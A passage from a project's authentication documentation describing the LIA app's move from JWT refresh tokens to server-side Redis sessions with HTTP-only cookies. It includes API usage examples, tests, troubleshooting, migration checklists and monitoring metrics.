    "is_superuser": false,
    "oauth_provider": null,
    "picture_url": null,
    "created_at": "2025-11-14T10:30:00Z",
    "updated_at": "2025-11-14T10:30:00Z"
  },
  "message": "Registration successful"
}
```

---

#### Exemple: POST /auth/refresh (REMOVED)

```python
@router.post(
    "/refresh",
    status_code=410,
    response_model=None,
    summary="[REMOVED] Refresh token endpoint",
    description="This endpoint has been permanently removed with BFF Pattern migration. "
    "Sessions are automatically refreshed server-side.",
    deprecated=True,
    responses={
        410: {
            "description": "Endpoint permanently removed",
            "content": {
                "application/json": {
                    "example": {
                        "detail": {
                            "error": "endpoint_permanently_removed",
                            "message": "Token refresh is no longer needed with BFF Pattern. "
                            "Sessions are automatically refreshed on authenticated requests.",
                            "migration_guide": "/docs#bff-authentication",
                            "alternative": "Use session-based authentication via /auth/login",
                            "deprecated_since": "v0.2.0",
                            "removed_in": "v0.3.0",
                        }
                    }
                }
            },
        }
    },
)
async def refresh_token(
    data: TokenRefreshRequest,
) -> None:
    """
    [REMOVED] Refresh access token endpoint.

    **This endpoint has been permanently removed.**

    ## Migration Path

    With the BFF (Backend-For-Frontend) Pattern, token refresh is no longer needed:

    1. **Sessions auto-refresh**: Every authenticated request automatically extends
       the session TTL server-side.
    2. **HTTP-only cookies**: Authentication state is managed via secure cookies,
       not client-side tokens.
    3. **No token management**: Frontend doesn't need to handle token refresh logic.

    ## What to do instead

    - Use `/auth/login` for initial authentication
    - Sessions remain valid as long as the user is active
    - No manual refresh required

    ## Why was this removed?

    - **Security**: HTTP-only cookies prevent XSS token theft
    - **Simplicity**: Eliminates client-side token refresh complexity
    - **Modern standard**: BFF pattern is industry best practice for SPAs

    For detailed migration guide, see: /docs#bff-authentication

    Raises:
        HTTPException: Always raises 410 Gone with migration details
    """
    raise HTTPException(
        status_code=410,
        detail={
            "error": "endpoint_permanently_removed",
            "message": "Token refresh is no longer needed with BFF Pattern. "
            "Sessions are automatically refreshed on authenticated requests.",
            "migration_guide": "/docs#bff-authentication",
            "alternative": "Use session-based authentication via /auth/login",
            "deprecated_since": "v0.2.0",
            "removed_in": "v0.3.0",
            "learn_more": "https://datatracker.ietf.org/doc/html/rfc7235#section-3.1",
        },
    )
```

**Response Example** :

```http
HTTP/1.1 410 Gone
Content-Type: application/json

{
  "detail": {
    "error": "endpoint_permanently_removed",
    "message": "Token refresh is no longer needed with BFF Pattern. Sessions are automatically refreshed on authenticated requests.",
    "migration_guide": "/docs#bff-authentication",
    "alternative": "Use session-based authentication via /auth/login",
    "deprecated_since": "v0.2.0",
    "removed_in": "v0.3.0",
    "learn_more": "https://datatracker.ietf.org/doc/html/rfc7235#section-3.1"
  }
}
```

---

## 💡 Exemples Pratiques

### Exemple 1: Registration Flow Complet

```python
# 1. Frontend sends registration request
import requests

response = requests.post(
    "https://api.lia-assistant.com/api/v1/auth/register",
    json={
        "email": "alice@example.com",
        "password": "SecureP@ssw0rd123",
        "full_name": "Alice Dupont",
        "timezone": "Europe/Paris",
        "language": "fr",
        "remember_me": False,
    },
)

# 2. Response with user + session cookie
print(response.status_code)  # 201
print(response.json())
# {
#   "user": {
#     "id": "uuid",
#     "email": "alice@example.com",
#     "is_active": False,  # ← Requires email verification
#     "is_verified": False,
#     ...
#   },
#   "message": "Registration successful"
# }

# 3. Cookie automatically stored in browser
print(response.cookies)
# <RequestsCookieJar[Cookie(name='lia_session', value='uuid')]>

# 4. User receives verification email
# Email contains link: https://app.lia-assistant.com/verify-email?token=eyJhbGci...

# 5. User clicks link, frontend calls /auth/verify-email
verify_response = requests.post(
    "https://api.lia-assistant.com/api/v1/auth/verify-email",
    json={"token": "eyJhbGci..."},
)

print(verify_response.json())
# {
#   "user": {
#     "id": "uuid",
#     "email": "alice@example.com",
#     "is_active": True,   # ← Activated
#     "is_verified": True, # ← Verified
#     ...
#   },
#   "message": "Email verified successfully"
# }

# 6. User can now use all features (is_active=True)
```

---

### Exemple 2: Login + Authenticated Request

```python
import requests

# 1. Login
session = requests.Session()  # Automatically handles cookies

login_response = session.post(
    "https://api.lia-assistant.com/api/v1/auth/login",
    json={
        "email": "alice@example.com",
        "password": "SecureP@ssw0rd123",
        "remember_me": True,  # ← 30 days session
    },
)

print(login_response.status_code)  # 200
print(login_response.json())
# {
#   "user": {"id": "uuid", "email": "alice@example.com", ...},
#   "message": "Login successful"
# }

# 2. Cookie automatically stored in session
print(session.cookies)
# <RequestsCookieJar[Cookie(name='lia_session', value='uuid', httponly=True)]>

# 3. Authenticated request (cookie sent automatically)
conversations_response = session.get(
    "https://api.lia-assistant.com/api/v1/conversations"
)

print(conversations_response.status_code)  # 200
print(conversations_response.json())
# {
#   "conversations": [
#     {"id": "uuid", "title": "My first conversation", ...},
#     ...
#   ]
# }

# 4. Logout
logout_response = session.post(
    "https://api.lia-assistant.com/api/v1/auth/logout"
)

print(logout_response.status_code)  # 200
print(logout_response.json())
# {"message": "Successfully logged out"}

# 5. Cookie cleared
print(session.cookies)
# <RequestsCookieJar[]>  (empty)

# 6. Next request returns 401
unauthorized_response = session.get(
    "https://api.lia-assistant.com/api/v1/conversations"
)
print(unauthorized_response.status_code)  # 401
```

---

### Exemple 3: Logout from All Devices

```python
import requests

session = requests.Session()

# 1. Login on Device 1
session.post(
    "https://api.lia-assistant.com/api/v1/auth/login",
    json={"email": "alice@example.com", "password": "SecureP@ssw0rd123"},
)
# Session 1 created: session:uuid-1

# 2. Login on Device 2 (different session object)
session2 = requests.Session()
session2.post(
    "https://api.lia-assistant.com/api/v1/auth/login",
    json={"email": "alice@example.com", "password": "SecureP@ssw0rd123"},
)
# Session 2 created: session:uuid-2

# 3. Redis state
# session:uuid-1 → {user_id: alice_uuid, ...}
# session:uuid-2 → {user_id: alice_uuid, ...}
# user:alice_uuid:sessions → [uuid-1, uuid-2]

# 4. Logout from all devices (from Device 1)
logout_all_response = session.post(
    "https://api.lia-assistant.com/api/v1/auth/logout-all"
)

print(logout_all_response.status_code)  # 200
print(logout_all_response.json())
# {"message": "Logged out from all devices"}

# 5. Redis state after logout-all
# session:uuid-1 → DELETED
# session:uuid-2 → DELETED
# user:alice_uuid:sessions → DELETED

# 6. Device 1: next request → 401
response1 = session.get("https://api.lia-assistant.com/api/v1/conversations")
print(response1.status_code)  # 401

# 7. Device 2: next request → 401
response2 = session2.get("https://api.lia-assistant.com/api/v1/conversations")
print(response2.status_code)  # 401
```

---

### Exemple 4: Password Reset Flow

```python
import requests

# 1. User forgot password, requests reset
reset_request = requests.post(
    "https://api.lia-assistant.com/api/v1/auth/request-reset",
    json={"email": "alice@example.com"},
)

print(reset_request.status_code)  # 200
print(reset_request.json())
# {"message": "If email exists, password reset link has been sent"}

# Note: Message doesn't reveal if email exists (security best practice)

# 2. User receives email with reset link
# https://app.lia-assistant.com/reset-password?token=eyJhbGci...

# 3. User submits new password
confirm_reset = requests.post(
    "https://api.lia-assistant.com/api/v1/auth/confirm-reset",
    json={
        "token": "eyJhbGci...",
        "new_password": "NewSecureP@ssw0rd456",
    },
)

print(confirm_reset.status_code)  # 200
print(confirm_reset.json())
# {
#   "user": {"id": "uuid", "email": "alice@example.com", ...},
#   "message": "Password reset successful"
# }

# 4. User can login with new password
login_response = requests.post(
    "https://api.lia-assistant.com/api/v1/auth/login",
    json={
        "email": "alice@example.com",
        "password": "NewSecureP@ssw0rd456",
    },
)

print(login_response.status_code)  # 200
```

---

## 🧪 Testing

### Unit Tests

**Localisation** : [`apps/api/tests/unit/test_auth_service.py`](../../apps/api/tests/unit/test_auth_service.py)

```python
import pytest
from sqlalchemy.ext.asyncio import AsyncSession

from src.core.exceptions import raise_email_already_exists, raise_invalid_credentials
from src.domains.auth.schemas import UserLoginRequest, UserRegisterRequest
from src.domains.auth.service import AuthService


@pytest.mark.asyncio
async def test_register_success(db_session: AsyncSession):
    """Test successful user registration."""
    service = AuthService(db_session)

    data = UserRegisterRequest(
        email="test@example.com",
        password="SecureP@ssw0rd",
        full_name="Test User",
        timezone="Europe/Paris",
        language="fr",
    )

    user_response = await service.register(data)

    assert user_response.email == "test@example.com"
    assert user_response.full_name == "Test User"
    assert user_response.is_active is False  # Requires email verification
    assert user_response.is_verified is False


@pytest.mark.asyncio
async def test_register_duplicate_email(db_session: AsyncSession):
    """Test registration with existing email fails."""
    service = AuthService(db_session)

    # Create first user
    data = UserRegisterRequest(
        email="duplicate@example.com",
        password="SecureP@ssw0rd",
    )
    await service.register(data)

    # Try to create second user with same email
    with pytest.raises(Exception) as exc_info:
        await service.register(data)

    # Should raise email_already_exists exception
    assert "already exists" in str(exc_info.value).lower()


@pytest.mark.asyncio
async def test_login_success(db_session: AsyncSession):
    """Test successful login."""
    service = AuthService(db_session)

    # Register user
    register_data = UserRegisterRequest(
        email="login@example.com",
        password="SecureP@ssw0rd",
    )
    user = await service.register(register_data)

    # Activate user (simulate email verification)
    await service.repository.activate_user(user)
    await db_session.commit()

    # Login
    login_data = UserLoginRequest(
        email="login@example.com",
        password="SecureP@ssw0rd",
    )
    user_response = await service.login(login_data)

    assert user_response.email == "login@example.com"
    assert user_response.is_active is True


@pytest.mark.asyncio
async def test_login_invalid_password(db_session: AsyncSession):
    """Test login with invalid password fails."""
    service = AuthService(db_session)

    # Register user
    register_data = UserRegisterRequest(
        email="test@example.com",
        password="CorrectPassword",
    )
    await service.register(register_data)

    # Try login with wrong password
    login_data = UserLoginRequest(
        email="test@example.com",
        password="WrongPassword",
    )

    with pytest.raises(Exception) as exc_info:
        await service.login(login_data)

    assert "invalid" in str(exc_info.value).lower()
```

---

### Integration Tests

**Localisation** : [`apps/api/tests/integration/test_auth.py`](../../apps/api/tests/integration/test_auth.py)

```python
import pytest
from httpx import AsyncClient


@pytest.mark.asyncio
async def test_register_login_logout_flow(client: AsyncClient):
    """Test complete authentication flow."""

    # 1. Register
    register_response = await client.post(
        "/api/v1/auth/register",
        json={
            "email": "flow@example.com",
            "password": "SecureP@ssw0rd",
            "full_name": "Flow Test",
        },
    )
    assert register_response.status_code == 201
    assert "lia_session" in register_response.cookies

    user = register_response.json()["user"]
    assert user["email"] == "flow@example.com"
    assert user["is_active"] is False

    # 2. Try authenticated request before verification (should work but limited features)
    conversations_response = await client.get("/api/v1/conversations")
    # User is authenticated but not verified
    # Depending on endpoint requirements, this might return 403 or limited data

    # 3. Simulate email verification
    # (In real scenario, extract token from email and call /auth/verify-email)

    # 4. Login
    login_response = await client.post(
        "/api/v1/auth/login",
        json={
            "email": "flow@example.com",
            "password": "SecureP@ssw0rd",
        },
    )
    assert login_response.status_code == 200
    assert "lia_session" in login_response.cookies

    # 5. Authenticated request
    conversations_response = await client.get("/api/v1/conversations")
    assert conversations_response.status_code == 200

    # 6. Logout
    logout_response = await client.post("/api/v1/auth/logout")
    assert logout_response.status_code == 200

    # 7. Try authenticated request after logout (should fail)
    unauthorized_response = await client.get("/api/v1/conversations")
    assert unauthorized_response.status_code == 401


@pytest.mark.asyncio
async def test_logout_all_devices(client: AsyncClient):
    """Test logout from all devices."""

    # Create 2 sessions (simulate 2 devices)
    client1 = AsyncClient(app=app, base_url="http://test")
    client2 = AsyncClient(app=app, base_url="http://test")

    # Device 1: Login
    await client1.post(
        "/api/v1/auth/login",
        json={"email": "multi@example.com", "password": "password"},
    )

    # Device 2: Login
    await client2.post(
        "/api/v1/auth/login",
        json={"email": "multi@example.com", "password": "password"},
    )

    # Both devices can access protected endpoints
    assert (await client1.get("/api/v1/conversations")).status_code == 200
    assert (await client2.get("/api/v1/conversations")).status_code == 200

    # Device 1: Logout from all devices
    logout_response = await client1.post("/api/v1/auth/logout-all")
    assert logout_response.status_code == 200

    # Both devices should now be logged out
    assert (await client1.get("/api/v1/conversations")).status_code == 401
    assert (await client2.get("/api/v1/conversations")).status_code == 401
```

---

## 🔍 Troubleshooting

### Problème 1: "Session invalid or expired" (401)

**Symptôme** :
```json
{
  "detail": "Session invalid or expired. Please login again."
}
```

**Causes possibles** :

1. **Session expirée** (TTL dépassé)
   - Vérifier TTL dans Redis : `TTL session:{uuid}`
   - Default: 7 jours (604800 secondes)
   - Remember me: 30 jours (2592000 secondes)

2. **Session deleted** (logout manuel)
   - Vérifier existence dans Redis : `GET session:{uuid}`
   - Si `nil` → session deleted

3. **User deleted/deactivated**
   - Vérifier user dans PostgreSQL : `SELECT * FROM users WHERE id=?`
   - Si `is_active=False` → orphan session auto-deleted

**Solution** :
```python
# Frontend: Redirect to login page
if response.status === 401:
    window.location.href = '/login'
```

---

### Problème 2: Cookie not sent in requests

**Symptôme** :
```
Cookie "lia_session" not found in request
```

**Causes possibles** :

1. **CORS misconfiguration**
   ```python
   # ❌ WRONG
   app.add_middleware(
       CORSMiddleware,
       allow_origins=["https://frontend.com"],
       allow_credentials=False,  # ← Must be True for cookies
   )

   # ✅ CORRECT
   app.add_middleware(
       CORSMiddleware,
       allow_origins=["https://frontend.com"],
       allow_credentials=True,  # ← Required for cookies
   )
   ```

2. **Frontend not sending credentials**
   ```javascript
   // ❌ WRONG
   fetch('https://api.com/conversations')

   // ✅ CORRECT
   fetch('https://api.com/conversations', {
       credentials: 'include'  // ← Required to send cookies
   })
   ```

3. **Cookie domain mismatch**
   ```python
   # If frontend is on app.lia-assistant.com
   # and API is on api.lia-assistant.com

   # ❌ WRONG
   session_cookie_domain = "api.lia-assistant.com"  # Too restrictive

   # ✅ CORRECT
   session_cookie_domain = ".lia-assistant.com"  # Works for all subdomains
   ```

---

### Problème 3: Session not persisting (logout immediately)

**Symptôme** :
User login successful but immediately logged out on next request.

**Causes possibles** :

1. **TTL = 0 bug**
   ```python
   # Check Redis TTL
   redis-cli> TTL session:uuid
   (integer) -1  # ← Bug: no expiration set

   # Should be:
   (integer) 604800  # 7 days
   ```

   **Fix** : Vérifier `SessionStore.create_session` utilise bien `remember_me` :
   ```python
   ttl = (
       settings.session_cookie_max_age_remember
       if remember_me
       else settings.session_cookie_max_age
   )
   await self.redis.setex(key, ttl, json.dumps(session.to_dict()))
   ```

2. **Cookie Max-Age mismatch**
   ```python
   # Cookie expires before Redis session
   # ❌ WRONG
   response.set_cookie(
       key="lia_session",
       value=session_id,
       max_age=3600,  # ← 1 hour (too short)
   )

   # Redis TTL: 604800 (7 days)
   # Cookie expires → Redis session still exists but cookie gone

   # ✅ CORRECT
   session_ttl = settings.session_cookie_max_age  # 604800
   response.set_cookie(
       key="lia_session",
       value=session_id,
       max_age=session_ttl,  # ← Must match Redis TTL
   )
   ```

---

### Problème 4: Password verification fails (valid password)

**Symptôme** :
```
User login failed: Invalid email or password
```

**Causes possibles** :

1. **Password not hashed during registration**
   ```python
   # ❌ WRONG
   user_data = {
       "email": email,
       "hashed_password": password,  # ← Plain password stored!
   }

   # ✅ CORRECT
   from src.core.security import get_password_hash

   user_data = {
       "email": email,
       "hashed_password": get_password_hash(password),  # ← Hashed
   }
   ```

2. **OAuth user trying password login**
   ```python
   # OAuth users have hashed_password = None
   # Checking user.hashed_password is None prevents this
   if not user or not user.hashed_password:
       raise_invalid_credentials(data.email)
   ```

---

### Problème 5: Orphan sessions in Redis

**Symptôme** :
Redis memory grows with abandoned sessions.

**Diagnostic** :
```bash
# Count sessions in Redis
redis-cli KEYS "session:*" | wc -l
# 10000

# Count users in PostgreSQL
psql -c "SELECT COUNT(*) FROM users WHERE is_active=True"
# 500

# Orphan sessions: 10000 - (500 * avg_sessions_per_user)
```

**Causes** :
- User deleted → sessions not cleaned
- Manual Redis flush → user index lost

**Solution automatique** :
```python
# Orphan session auto-cleanup in get_current_session
user = await user_repo.get_user_minimal_for_session(UUID(session.user_id))

if not user:
    # Orphan session (user deleted or deactivated) - cleanup
    await session_store.delete_session(session.session_id)
    logger.warning(
        "orphan_session_deleted",
        session_id=session.session_id,
        user_id=session.user_id,
    )
    raise_session_invalid()
```

**Solution manuelle (cleanup script)** :
```python
# scripts/cleanup_orphan_sessions.py
import asyncio
from src.infrastructure.cache.redis import get_redis_session

async def cleanup_orphan_sessions():
    redis = await get_redis_session()

    # Get all session keys
    session_keys = await redis.keys("session:*")

    orphan_count = 0
    for key in session_keys:
        session_data = await redis.get(key)
        if not session_data:
            continue

        session_dict = json.loads(session_data)
        user_id = session_dict["user_id"]

        # Check if user exists and is active
        user = await db.execute(
            select(User).where(User.id == UUID(user_id), User.is_active == True)
        )

        if not user.scalar_one_or_none():
            # Orphan session - delete
            await redis.delete(key)
            orphan_count += 1

    print(f"Cleaned up {orphan_count} orphan sessions")

asyncio.run(cleanup_orphan_sessions())
```

---

## 🔄 Migration Legacy → BFF

### Breaking Changes

**v0.3.0 (BFF Pattern Migration)**

| Removed | Replacement | Impact |
|---------|-------------|--------|
| `POST /auth/refresh` | Auto-refresh (server-side) | Frontend: remove refresh logic |
| `TokenResponse` in response body | HTTP-only cookie | Frontend: remove token storage |
| `AuthResponse` schema | `AuthResponseBFF` | Frontend: update types |
| `get_current_user` dependency | `get_current_active_session` | Backend: update imports |
| JWT tokens in response | Session cookie | Frontend: use `credentials: 'include'` |

---

### Migration Checklist Frontend

**1. Remove JWT token management**

```javascript
// ❌ BEFORE (v0.2.0)
// Store tokens in localStorage
const response = await fetch('/api/auth/login', {
    method: 'POST',
    body: JSON.stringify({email, password}),
})

const {access_token, refresh_token} = await response.json()
localStorage.setItem('access_token', access_token)
localStorage.setItem('refresh_token', refresh_token)

// Add Authorization header to requests
fetch('/api/conversations', {
    headers: {
        'Authorization': `Bearer ${localStorage.getItem('access_token')}`
    }
})

// Handle token refresh
async function refreshToken() {
    const refresh_token = localStorage.getItem('refresh_token')
    const response = await fetch('/api/auth/refresh', {
        method: 'POST',
        body: JSON.stringify({refresh_token}),
    })
    const {access_token} = await response.json()
    localStorage.setItem('access_token', access_token)
}
```

```javascript
// ✅ AFTER (v0.3.0)
// No token management needed
const response = await fetch('/api/auth/login', {
    method: 'POST',
    credentials: 'include',  // ← Send cookies
    body: JSON.stringify({email, password}),
})

// Cookie automatically stored by browser
// No localStorage, no token storage

// Authenticated requests: just add credentials
fetch('/api/conversations', {
    credentials: 'include'  // ← Send cookies automatically
})

// No refresh logic needed (server-side auto-refresh)
```

**2. Update CORS configuration**

```javascript
// Axios
axios.defaults.withCredentials = true

// Fetch
const defaultFetchOptions = {
    credentials: 'include'
}
```

**3. Handle 401 errors**

```javascript
// Intercept 401 → redirect to login
fetch('/api/conversations', {credentials: 'include'})
    .then(response => {
        if (response.status === 401) {
            window.location.href = '/login'
        }
        return response.json()
    })
```

---

### Migration Checklist Backend

**1. Update dependencies**

```python
# ❌ BEFORE
from src.core.dependencies import get_current_user

@router.get("/protected")
async def protected(user: User = Depends(get_current_user)):
    pass

# ✅ AFTER
from src.core.session_dependencies import get_current_active_session

@router.get("/protected")
async def protected(user: User = Depends(get_current_active_session)):
    pass
```

**2. Remove JWT token generation**

```python
# ❌ BEFORE
from src.core.security import create_access_token, create_refresh_token

tokens = TokenResponse(
    access_token=create_access_token(user.id),
    refresh_token=create_refresh_token(user.id),
    token_type="bearer",
    expires_in=3600,
)

return AuthResponse(user=user_response, tokens=tokens)

# ✅ AFTER
from src.core.session_helpers import create_authenticated_session_with_cookie

await create_authenticated_session_with_cookie(
    response=response,
    user_id=str(user.id),
    remember_me=data.remember_me,
)

return AuthResponseBFF(user=user_response, message="Login successful")
```

**3. Update CORS middleware**

```python
# ❌ BEFORE
app.add_middleware(
    CORSMiddleware,
    allow_origins=["https://frontend.com"],
    allow_credentials=False,  # JWT in headers
)

# ✅ AFTER
app.add_middleware(
    CORSMiddleware,
    allow_origins=["https://frontend.com"],
    allow_credentials=True,  # ← Required for cookies
    allow_methods=["*"],
    allow_headers=["*"],
)
```

---

## 📊 Métriques & Observabilité

### Prometheus Metrics

**Localisation** : [`apps/api/src/infrastructure/observability/metrics.py`](../../apps/api/src/infrastructure/observability/metrics.py)

```python
from prometheus_client import Counter, Histogram

# Authentication attempts
auth_attempts_total = Counter(
    "auth_attempts_total",
    "Total authentication attempts",
    ["method", "status"],  # method: login|register|oauth, status: success|error
)

# User registrations
user_registrations_total = Counter(
    "user_registrations_total",
    "Total user registrations",
    ["provider", "status"],  # provider: password|google, status: success|error
)

# User logins
user_logins_total = Counter(
    "user_logins_total",
    "Total user logins",
    ["provider", "status"],  # provider: password|google, status: success|error
)

# Session operations
session_operations_total = Counter(
    "session_operations_total",
    "Total session operations",
    ["operation", "status"],  # operation: create|delete|get, status: success|error
)

# Auth endpoint duration
auth_endpoint_duration_seconds = Histogram(
    "auth_endpoint_duration_seconds",
    "Authentication endpoint response time",
    ["endpoint", "method"],
    buckets=[0.01, 0.05, 0.1, 0.25, 0.5, 1.0, 2.5, 5.0],
)
```

**Usage dans le code** :

```python
# In auth router
try:
    user_response = await service.register(data)

    # Track successful registration
    auth_attempts_total.labels(method="register", status="success").inc()
    user_registrations_total.labels(provider="password", status="success").inc()

except HTTPException:
    # Track failed registration
    auth_attempts_total.labels(method="register", status="error").inc()
    user_registrations_total.labels(provider="password", status="error").inc()
    raise
```

---

### Grafana Dashboards

**Dashboard: Authentication Overview**

```sql
-- Total logins (last 24h)
sum(increase(user_logins_total{status="success"}[24h]))

-- Login success rate
sum(increase(user_logins_total{status="success"}[5m]))
/
sum(increase(user_logins_total[5m])) * 100

-- Active sessions count
# Redis query: KEYS session:* | wc -l

-- Average session duration
avg(session_duration_seconds)

-- Top authentication errors
topk(5, sum by (error_type) (rate(auth_attempts_total{status="error"}[5m])))
```

---

### Structured Logging

**Session creation log** :

```json
{
  "event": "session_created_minimal",
  "session_id": "550e8400-e29b-41d4-a716-446655440000",
  "user_id": "123e4567-e89b-12d3-a456-426614174000",
  "remember_me": false,
  "ttl_days": 7,
  "ttl_seconds": 604800,
  "indexed": true,
  "timestamp": "2025-11-14T10:30:00Z",
  "level": "info"
}
```

**User login log** :

```json
{
  "event": "user_logged_in_bff",
  "user_id": "123e4567-e89b-12d3-a456-426614174000",
  "email": "user@example.com",
  "session_id": "550e8400-e29b-41d4-a716-446655440000",
  "remember_me": false,
  "session_ttl_days": 7,
  "timestamp": "2025-11-14T10:30:00Z",
  "level": "info"
}
```

**Orphan session cleanup log** :

```json
{
  "event": "orphan_session_deleted",
  "session_id": "orphan-uuid",
  "user_id": "deleted-user-id",
  "reason": "user_not_found_or_inactive",
  "timestamp": "2025-11-14T10:30:00Z",
  "level": "warning"
}
```

---

## 📚 Ressources

### Documentation Connexe

- **[OAUTH.md](./OAUTH.md)** : OAuth 2.1 + PKCE avec Google Provider
- **[SECURITY.md](./SECURITY.md)** : Sécurité globale de l'application
- **[STATE_AND_CHECKPOINT.md](./STATE_AND_CHECKPOINT.md)** : Gestion d'état et checkpoints
- **[OBSERVABILITY_AGENTS.md](./OBSERVABILITY_AGENTS.md)** : Métriques et observabilité

### Standards & Best Practices

- **[OWASP Session Management Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Session_Management_Cheat_Sheet.html)**
- **[OWASP ASVS 4.0](https://owasp.org/www-project-application-security-verification-standard/)** (Application Security Verification Standard)
- **[GDPR Article 5](https://gdpr-info.eu/art-5-gdpr/)** (Data Minimization Principle)
- **[OAuth 2.1 Specification](https://datatracker.ietf.org/doc/html/draft-ietf-oauth-v2-1-07)**
- **[BFF Pattern (Backend-For-Frontend)](https://philcalcado.com/2015/09/18/the_back_end_for_front_end_pattern_bff.html)**

### Configuration Files

```yaml
# apps/api/.env.example
# Session configuration
SESSION_COOKIE_NAME=lia_session
SESSION_COOKIE_MAX_AGE=604800  # 7 days
SESSION_COOKIE_MAX_AGE_REMEMBER=2592000  # 30 days
SESSION_COOKIE_SECURE=true
SESSION_COOKIE_HTTPONLY=true
SESSION_COOKIE_SAMESITE=lax
SESSION_COOKIE_DOMAIN=.lia-assistant.com

# JWT configuration (for email verification tokens)
JWT_SECRET_KEY=your-secret-key-here
JWT_ALGORITHM=HS256
JWT_ACCESS_TOKEN_EXPIRE_MINUTES=15
JWT_REFRESH_TOKEN_EXPIRE_DAYS=30

# Email service
SMTP_HOST=smtp.gmail.com
SMTP_PORT=587
SMTP_USER=noreply@lia-assistant.com
SMTP_PASSWORD=your-smtp-password

# Frontend URL (for verification/reset links)
FRONTEND_URL=https://app.lia-assistant.com
```

---

## 📈 Statistiques

### Performance

| Opération | Latence | Détails |
|-----------|---------|---------|
| **Session creation** | ~0.1-0.5ms | Redis SETEX + SADD |
| **Session validation** | ~0.1-0.5ms | Redis GET |
| **User fetch** | ~0.3-0.5ms | PostgreSQL SELECT (PRIMARY KEY) |
| **Total auth overhead** | ~0.5-1ms | Redis + PostgreSQL combinés |
| **Logout (single)** | ~0.2-0.8ms | Redis DELETE + SREM |
| **Logout (all devices)** | ~5-15ms | Redis SMEMBERS + bulk DELETE |

### Memory

| Ressource | Consommation | Comparaison |
|-----------|--------------|-------------|
| **Session (minimal)** | ~100 bytes | 90% réduction vs full user |
| **Session (legacy full)** | ~500 bytes | Obsolète (v0.2.0) |
| **User index** | ~40 bytes/session | Overhead pour logout-all O(1) |
| **1000 sessions** | ~140 KB | Minimal + index |

### Coverage

- **Unit tests** : 95% coverage (auth service, repository)
- **Integration tests** : 100% des flows critiques
- **E2E tests** : Register → Login → Logout → Password Reset

---

**Fin de AUTHENTICATION.md**

*Document généré le 2025-11-14*
*Version: 1.0*
*LIA - BFF Pattern Authentication with HTTP-only cookies*

